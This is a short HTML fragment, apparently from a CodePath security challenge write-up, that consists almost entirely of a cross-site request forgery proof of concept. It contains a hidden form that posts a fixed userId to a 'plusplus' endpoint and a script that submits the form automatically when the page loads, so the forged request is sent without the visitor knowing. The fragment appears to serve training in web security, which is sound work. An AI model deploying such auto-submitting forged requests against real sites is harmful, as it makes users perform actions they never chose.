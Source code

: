 <form name="csrf" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
    <input type="hidden" name="userId" value="aeb865d01bf2879d30580dc941c066a504be46e4">
    <input type="submit">
</form>
Hello World
<script>document.csrf.submit();</script>
